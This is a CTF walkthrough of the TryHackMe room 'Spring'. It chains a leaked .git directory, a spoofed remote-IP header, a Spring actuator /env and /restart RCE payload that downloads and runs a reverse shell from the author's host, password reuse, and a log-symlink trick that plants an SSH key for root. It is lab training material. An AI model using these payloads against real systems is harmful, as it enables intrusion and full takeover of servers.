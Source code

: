 ```yaml
---
layout: post
title: CTF Log - Spring {THM}
description: A log of how I did the TryHackMe room Spring by onurshin
summary: A log of the THM room "Spring"
tags: ctf log
minute: 9
---
```

<br/>

> {{ page.description }}

<br/>

# Spring
## Exposed .git Directory, Actuators /env & /restart RCE
The open ports are 22, 80, 443. The ssl cert information reveals the domain name `spring.thm` and the name `John Smith`. 

Navigating to the site on port 80 redirects to 443 with HTTPS. The landing page is practically blank.

Taking a queue from the name, I do an `ffuf` scan with SecLists's `spring-boot.txt` file. This just informs me that everything under the `actuator/` web directory returns a `403`. 

A recursive directory scan with the `dirsearch` wordlist reveals a `/sources/new/.git`. I use `dumper` from GitTools to download the folder then `extractor` to build out the file structure.

```java
    @Configuration
    @EnableWebSecurity
    static class SecurityConfig extends WebSecurityConfigurerAdapter {

        @Override
        protected void configure(HttpSecurity http) throws Exception {
            http
                    .authorizeRequests()
                    .antMatchers("/actuator**/**").hasIpAddress("172.16.0.0/24")
                    .and().csrf().disable();
        }

    }
}
```

This code snippet from `Application.java` shows why the `actuator/` directory was returning a `403` response. The `hasIpAddress("172.16.0.0/24")` function is forbidding addresses outside of the `172.16.0.0/24` subnet from visiting that directory. 

The `application.properties` file has a lot of useful information which I end up using further in the CTF. At this point, the relevant line is `server.tomcat.remoteip.remote-ip-header=x-9ad42dea0356cb04`. A quick look at the [tomcat documentation](https://tomcat.apache.org/tomcat-8.5-doc/api/org/apache/catalina/valves/RemoteIpValve.html#:~:text=Name%20of%20the%20Http%20Header%20read%20by%20this%20valve%20that%20holds%20the%20list%20of%20traversed%20IP%20addresses%20starting%20from%20the%20requesting%20client) shows that this replaces the usual `x-forwarded-for`. Knowing this, I'm able to send a request using the `x-9ad42dea0356cb04` header to tell the server that my IP is one from the correct subnet. 

![/assets/media/spring/x-forwarded-for.png](GET request with the aforementioned header parameter with 172.16.0.0 value, 200 response by server)

This time the server lets me through and responds with a JSON of the available endpoints:

```json
{
    "_links":
    {
        "self":
        {
            "href": "https://spring.thm/actuator",
            "templated": false
        },
        "beans":
        {
            "href": "https://spring.thm/actuator/beans",
            "templated": false
        },
        "health":
        {
            "href": "https://spring.thm/actuator/health",
            "templated": false
        },
        "health-path":
        {
            "href": "https://spring.thm/actuator/health/{*path}",
            "templated": true
        },
        "shutdown":
        {
            "href": "https://spring.thm/actuator/shutdown",
            "templated": false
        },
        "env-toMatch":
        {
            "href": "https://spring.thm/actuator/env/{toMatch}",
            "templated": true
        },
        "env":
        {
            "href": "https://spring.thm/actuator/env",
            "templated": false
        },
        "mappings":
        {
            "href": "https://spring.thm/actuator/mappings",
            "templated": false
        },
        "restart":
        {
            "href": "https://spring.thm/actuator/restart",
            "templated": false
        }}}
```

There's a technique for getting code execution through exposed actuator endpoints that I learned from [this site](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database). 

> <b>tldr;</b>
> Can use the `/env` endpoint to set an environment variable which will have a SQL query executed on restart. I use the `CREATE ALIAS` SQL command to define a Java function, which I then use to execute arbitrary commands on the OS. 

It takes two payloads and restarts for me to get a reverse shell. First to download the shell script onto the machine, then to execute it.

```json
{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS CONCAT('String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new',' java.util.Scanner(Runtime.getRun','time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }');CALL EXEC('wget 10.13.1.225:9090/r.sh -O /tmp/r.sh');"}
```

This is the first payload, to download the script. I then use the `/restart` endpoint to restart the application and have the command executed. The second payload just calls `/bin/bash /tmp/r.sh`. I make sure to add `Content-Type: application/json` to each POST request as well. 

I get a shell as `nobody`. 

## Password Guessing
![/assets/media/spring/nobody_env_vars.png](Environment variables, password is PrettyS3cureKeystorePassword123.)

This screenshot shows the environment variables for the user `nobody`. 

Of note is the `SUDO_COMMAND` variable that's revealing a password used in the launch of the actuator application. Interestingly, a similarly formatted password was present in the `.git` directory that I cloned earlier. 

```java
spring.security.user.name=johnsmith
spring.security.user.password=PrettyS3cureSpringPassword123.
debug=false
spring.cloud.config.uri=
```

This is a snippet of code from the `application.properties` file from the leaked `.git` directory. The same password format is used. I would have brute forced `su` using [sucrack](https://github.com/hemp3l/sucrack) but after around five guesses I hit the correct password and get a shell as `johnsmith`. 

## Log Poisoning & Symbolic Link
This was a really neat privesc, I enjoyed it a lot. 

In `johnsmith`'s home directory there's a `/tomcatlogs` directory. It appears to contain logs whose names are an epoch timestamp.

![/assets/media/spring/systemctl.png](systemctl status spring output)

There are two things to notice about the above screenshot. The first is that one of the processes spawned from the spring service is a `tee` of the logs to a logfile in the `/tomcatlogs` directory. The second is that I was able to use `systemctl shutdown spring` and the service automatically restarted, prompting a `tee` command to a new log file. 

```java
    @RestController
    //https://spring.io/guides/gs/rest-service/
    static class HelloWorldController {
        @RequestMapping("/")
        public String hello(@RequestParam(value = "name", defaultValue = "World") String name) {
            System.out.println(name);
            return String.format("Hello, %s!", name);
        }
    }
```

The code above is from the `Application.java` file. It defines a class and function that take the `name` GET parameter and display it on the page, at the landing page location, `/`. 

![/assets/media/spring/name_test.png](GET request with "oriel" as name parameter value)

This screenshot shows a test of my hypothesis and confirms that the `name` parameter's value is reflected in the page. 

```bash
johnsmith@spring:~$ cat test.txt 
2021-10-17 20:09:15.385  INFO 8014 --- [           main] trationDelegate$BeanPostProcessorChecker : Bean 'org.springframework.cloud.autoconfigure.ConfigurationPropertiesRebinderAutoConfiguration' of type [org.springframework.cloud.autoconfigure.ConfigurationPropertiesRebinderAutoConfiguration$$EnhancerBySpringCGLIB$$7af57240] is not eligible for getting processed by all BeanPostProcessors (for example: not eligible for auto-proxying)

  .   ____          _            __ _ _
 /\\ / ___'_ __ _ _(_)_ __  __ _ \ \ \ \
( ( )\___ | '_ | '_| | '_ \/ _` | \ \ \ \
 \\/  ___)| |_)| | | | | || (_| |  ) ) ) )
  '  |____| .__|_| |_|_| |_\__, | / / / /
 =========|_|==============|___/=/_/_/_/
 :: Spring Boot ::        (v2.3.1.RELEASE)

2021-10-17 20:09:16.483  INFO 8014 --- [           main] c.c.c.ConfigServicePropertySourceLocator : Fetching config from server at : http://localhost:8888

<!--Snipped!-->

World
oriel
johnsmith@spring:~$ 
```

Next, is a look through a log file which confirms that the value `oriel` is output into the log file. The filename `test.txt` will now be discussed. 

Since the `tee` command doesn't delete a file if it is already present, I'm able to create many log files whose names could contain the exact epoch time at which the service's `tee` command is executed. 

These files are then symlinked to `/root/.ssh/authorized_keys`. The command to perform this is `for x in {1634500389..1634502000};do touch $x.log && ln -s -f ~/test.txt $x.log;done`. I based the epoch time value on the current log file's and then added a thousand or two. 

![/assets/media/spring/post_ssh_key.png](GET request with public SSH key as name parameter value)

Since sshd ignores incorrect lines in the `authorized_keys` file, I'm able to send my URL encoded RSA public key through the `name` parameter. My public key will then be logged to one of my thousand symlinked files, which will put it in `root`'s `authorized_keys` file. 

I am then able to `ssh` in as `root`. 